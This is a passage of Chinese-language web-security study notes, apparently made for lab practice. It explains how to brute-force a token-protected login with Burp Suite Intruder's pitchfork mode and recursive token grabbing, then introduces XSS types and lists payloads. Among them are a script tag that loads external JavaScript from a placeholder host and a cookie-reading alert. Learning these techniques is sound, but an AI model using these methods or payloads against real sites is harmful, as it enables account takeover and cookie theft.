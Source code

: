 - 抓包发现提交的变量中多了一个token变量，再对返回包分析，可以确认token数值由返回包确定
  因此每次登陆都要将上一个返回包的token值放入其中

- 利用burpsuite的intruder的草叉模式(pitchfork)：不同位置对应不同的字典
  密码爆破仍选择字典，token需要抓取上一个返回包：

#### 利用burpsuite递归抓取返回包

- 在选项中修改线程数为1(因为每次都要抓取上一个返回包的token)

![](https://i.loli.net/2021/02/13/7Eqzh5w4GUM8Rri.png)

- 点击Add

![](https://i.loli.net/2021/02/13/mFkKJ7bXnCcgivI.png)

- Refetch response得到返回包，搜索token然后选中即可

![](https://i.loli.net/2021/02/13/VDJcv3ZrHMeo4Ip.png)

- 选择递归模式：

![](https://i.loli.net/2021/02/13/VkZUvCapz7tTIyP.png)

Redirections(重定向)选择always,就可以开始爆破啦

![](https://i.loli.net/2021/02/13/QJgXLfArvGy5WiP.png)

## xss跨站脚本(js！！！)

可以打一下xss-libs~~~

> 恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击！
>
> 存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie
>
> 反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面
>
> DOM型XSS：不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS。 

### 常见的payload：

转自[XSS(跨站脚本)漏洞详解之XSS跨站脚本攻击漏洞的解决](https://blog.csdn.net/qq_35393693/article/details/86597707?ops_request_misc=%25257B%252522request%25255Fid%252522%25253A%252522161041848616780255257057%252522%25252C%252522scm%252522%25253A%25252220140713.130102334..%252522%25257D&amp;request_id=161041848616780255257057&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_click~default-1-86597707.pc_search_result_no_baidu_js&amp;utm_term=xss%E6%94%BB%E5%87%BB)



```
<script>标签：可以引用外部的JavaScript代码，也可以将代码插入脚本标记
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
<script> alert("hack")</script>   #弹出hack
<script>alert(document.cookie)</script> #弹出cookie
```
